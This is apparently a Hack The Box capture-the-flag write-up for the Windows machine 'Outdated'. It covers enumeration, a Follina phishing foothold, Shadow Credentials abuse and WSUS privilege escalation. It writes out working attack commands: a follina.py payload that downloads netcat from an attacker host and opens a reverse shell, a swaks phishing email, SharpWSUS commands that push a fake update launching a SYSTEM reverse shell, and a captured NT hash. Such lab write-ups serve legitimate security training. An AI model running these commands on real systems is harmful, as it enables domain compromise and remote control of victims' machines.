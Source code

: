 ```yaml
---
title: "HTB - Outdated"
date: 2023-03-11T18:49:06+01:00
draft: false
tags: [HTB, Medium, Windows, skwaks, follina, WSUS, ShadowCreds, Whiskers, PowerSharpPack, Rubeus]
---
```


## Foothold
### Nmap
```
25/tcp open smtp hMailServer smtpd  
| smtp-commands: mail.outdated.htb, SIZE 20480000, AUTH LOGIN, HELP  
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY  
53/tcp open domain Simple DNS Plus  
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2022-08-17 19:19:09Z)  
135/tcp open msrpc Microsoft Windows RPC  
139/tcp open netbios-ssn Microsoft Windows netbios-ssn  
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)  
|_ssl-date: 2022-08-17T19:20:39+00:00; +6h59m54s from scanner time.  
| ssl-cert: Subject:  
| Subject Alternative Name: DNS:DC.outdated.htb, DNS:outdated.htb, DNS:OUTDATED  
| Not valid before: 2022-06-18T05:50:24  
|_Not valid after: 2024-06-18T06:00:24  
445/tcp open microsoft-ds?  
464/tcp open kpasswd5?  
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0  
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)  
|_ssl-date: 2022-08-17T19:20:39+00:00; +6h59m54s from scanner time.  
| ssl-cert: Subject:  
| Subject Alternative Name: DNS:DC.outdated.htb, DNS:outdated.htb, DNS:OUTDATED  
| Not valid before: 2022-06-18T05:50:24  
|_Not valid after: 2024-06-18T06:00:24  
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)  
|_ssl-date: 2022-08-17T19:20:39+00:00; +6h59m54s from scanner time.  
| ssl-cert: Subject:  
| Subject Alternative Name: DNS:DC.outdated.htb, DNS:outdated.htb, DNS:OUTDATED  
| Not valid before: 2022-06-18T05:50:24  
|_Not valid after: 2024-06-18T06:00:24  
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)  
|_ssl-date: 2022-08-17T19:20:39+00:00; +6h59m54s from scanner time.  
| ssl-cert: Subject:  
| Subject Alternative Name: DNS:DC.outdated.htb, DNS:outdated.htb, DNS:OUTDATED  
| Not valid before: 2022-06-18T05:50:24  
|_Not valid after: 2024-06-18T06:00:24  
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
|_http-server-header: Microsoft-HTTPAPI/2.0  
|_http-title: Not Found  
8530/tcp open http Microsoft IIS httpd 10.0  
|_http-server-header: Microsoft-IIS/10.0  
|_http-title: Site doesn't have a title.  
| http-methods:  
|_ Potentially risky methods: TRACE  
8531/tcp open unknown  
9389/tcp open mc-nmf .NET Message Framing  
49667/tcp open msrpc Microsoft Windows RPC  
49679/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0  
49680/tcp open msrpc Microsoft Windows RPC  
49683/tcp open msrpc Microsoft Windows RPC  
49918/tcp open msrpc Microsoft Windows RPC  
49924/tcp open msrpc Microsoft Windows RPC  
56328/tcp open msrpc Microsoft Windows RPC  
Service Info: Hosts: mail.outdated.htb, DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
SMTP port open (25) +  WSUS port open (8530)

### smbclient
| Sharename | Type | Comment |
|-------------|------|-----------|
|ADMIN$| Disk |Remote Admin  |
|C$| Disk |Default share  |
|IPC$| IPC Remote IPC  |
|NETLOGON| Disk Logon server share  |
|Shares| Disk  |
|SYSVOL Disk| Logon server share  |
|UpdateServicesPackages | Disk |A network share to be used by client systems for collecting all software packages (usually applications) published on this WSUS system. |
|WsusContent| Disk| A network share to be used by Local Publishing to place published content on this WSUS system.  |
|WSUSTemp | Disk | A network share used by Local Publishing from a Remote WSUS Console Instance.|

Inside the *Shares* directory, we can retrieve a pdf file with a listing of multiple CVEs to patch. 
It also ask to send an email to *itsupport@outdated.htb* with a link to any malicious site or endpoint in order to protect the system or whatever against it. 

Let's try exploiting those CVEs one by one then!

## User
>Luckily, the first was the right one !

Using the follina exploit script from [here](https://github.com/chvancooten/follina.py) we can serve a malicious document along side netcat.

```
> python follina.py -t docx -m command -c "Start-Process c:\windows\system32\cmd.exe -WindowStyle hidden -ArgumentList '/c powershell curl 10.10.X.X:8000/nc64.exe -o c:\windows\tasks\nc.exe; c:\windows\tasks\nc.exe -e cmd.exe 10.10.X.X XXXX'"
> swaks --to itsupport@outdated.htb --body "http://10.10.X.X/exploit.html"
> nc -lnvp XXXX
```

We're in  as user btables@outdated.htb ! Let's use groundhog / winpeas !
![[Pasted image 20220818193654.png]]

ShadowCreds to the user *sflowers*.. nice !

Using `Whisker` from [here (uncompiled)](https://github.com/eladshamir/Whisker)  or [here (compiled and obfuscated)](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/tree/master/PowerSharpBinaries)and Rubeus:

> I used the PowerSharpBinaries, as i didn't wanted to compile the C# project.
> PowerSharpPack is realy usefull

```
> ./Whisker.exe add /target:sflowers
> ./Rubeus.exe <the rest of the command Whisker gave as an output>
```

Got the NT hash of *sflowers*: 1FCDB1F6015DCB318CC77BB2BDA14DB5

Let's use it with evil-winrm...

Got user.txt

## LPE
> Obviously, WSUS is the target here. Let's cut to the chase and directly try to exploit it...

> Thx hAAAAAAAAAAAAAAAAcktricks
> https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#wsus

The system appears to be vulnerable.

We can use sharpWSUS from the [PowerSharpPack toolbox](https://github.com/S3cur3Th1sSh1t/PowerSharpPack) in order to fake an update and create a reverse shell using previously uploaded netcat.
We need to upload PsExec64.exe 

```
> nc -lnvp 4444
> ./SharpWSUS create /payload:"C:\Users\sflowers\Desktop\PsExec64.exe" /args:"-accepteula -s -d cmd.exe /c \"c:\windows\tasks\nc.exe -e cmd.exe 10.10.X.X XXXX\"" /title:"azerazer" # create a new udpate
> SharpWSUS approve /updateid:<update_id> /computername:dc.outdated.htb /groupname:"azerazer" # approve it
> SharpWSUS check /updatedid:<update_id /computername:dc.outdated.htb # check wether it has been installed or not. 
```
Wait for a bit and you've got your revshell.

AAAAAAAAAAAAAAAA